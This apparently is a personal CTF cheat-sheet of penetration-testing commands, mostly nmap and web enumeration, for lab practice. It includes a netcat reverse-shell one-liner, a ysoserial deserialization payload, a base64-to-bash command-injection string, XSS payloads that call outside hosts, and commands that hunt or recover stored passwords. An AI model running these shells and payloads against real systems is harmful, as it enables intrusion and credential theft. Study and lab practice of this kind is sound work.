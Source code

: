 # Notes that include various things I've found useful in some ctfs. 
## Tools

Subdomain enumeration 


* GoBuster - good for DNS searchers. Always use the -t 1000 switch while on VPN
* DirSearch - Quick for directory searches 
* FFuF - doesn't work that well on HTB vpns
* Intruder with Burp works well. Slower than options above though. 


nmap
* Service Version all with output to note. 
```
sudo nmap -sV -A host -oN host-nmap.txt
```
* Regular scan for a quick scan
```
nmap -p- host
```
* udp scan -T4 + agression -vv verbose
```
nmap -sU -T4 -vv
```
Serliaze a command (this case a ping) to a .des file to eventually turn into b64 
```
java -jar ysoserial-all.jar CommonsBeanutils1 'ping 10.10.14.11 -c 5' > ping.des 
```

Get the b64 payload 
```
base64 -w 0 ping.des > ping.b64 
```

Reading base64 payload then running in bash. 
```
;echo 'payload'|base64 -d|bash;
```

Find Permissions that you have - 
```
find / -type f -perm -u=s 2>/dev/null
```

Find Password in Derby.dat (ofbiz)
```
grep -arin -o -E '(\w+\W+){0,5}password(\W+\w+){0,5}' .
```

Quick XSS Requesting outside site
```
<img src="x" onerror="document.body.innerHTML+='<iframe src=\'http://example.com\' width=\'800\' height=\'600\'></iframe>';">
```

Sign in as admin
```
su root
```	
Make bash script executable 
```
chmod +x filename.sh
```
See if you can run anything that normally requires sudo with current account
```
sudo -l
```

White [space] in commands
```
${IFS}
```
		
Basic Netcat listener 
```
nc -lvnp 4444
```
	
Basic http.server to fetch with
```
python3 -m http.server
```	
PhP shell, save as .phar file or other php varients. 
```
https://github.com/flozz/p0wny-shell
```
SNMPWalk - Gather info from SNMP. v2c specifies snmp version -c specifies a specific string you're looking for
```
snmpwalk -v2c -c string domain 
snmpwalk -c <community_string> -v2c <OID>
```
	
Basic SQLmap on a domain 
```
sqlmap -u "vulndomain" --batch 
```
Fetching password in windows using powershell 
```
echo PASSWORD > pass.txt
$EncryptedString = Get-Content .\pass.txt
$SecureString = ConvertTo-SecureString $EncryptedString
$Credential = New-Object System.Management.Automation.PSCredential -ArgumentList "username",$SecureString
echo $Credential.GetNetworkCredential().password
```

#Shells
Outside of revshells, there may be others that are useful 
```
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc [IP] [port] >/tmp/f
```


# Identification 
```
uname -a
```
```
cat /etc/os-release
```
```
find / -name "filename.type"
```

```
<img src=x onerror="for(let i=0;i<4;i++){fetch('http://192.168.1.100/ping?'+i);}">
```

***Look at some word lists that include/actuator***

# Tips N Tricks

***Always try default credentials***

When using the cookie, use the intercept mode and do it one by one for each authentication in Burp. There is a way to configure it where it will automatically use it, somewhere. Haven't figured that part out. 

When doing downloads, use intercept and see if you can do directory traversal or fetch other files than what you're looking to downloads

Look at the individual folders for the writeups I'll do.. They're literally a transcription of my notes that I take while working on these boxes. 

# Good Resources 

GTFOBins
	https://gtfobins.github.io/

Hack Tricks
	https://book.hacktricks.xyz/network-services-pentesting/pentesting-snmp?source=post_page-----cc2d7b64da35--------------------------------

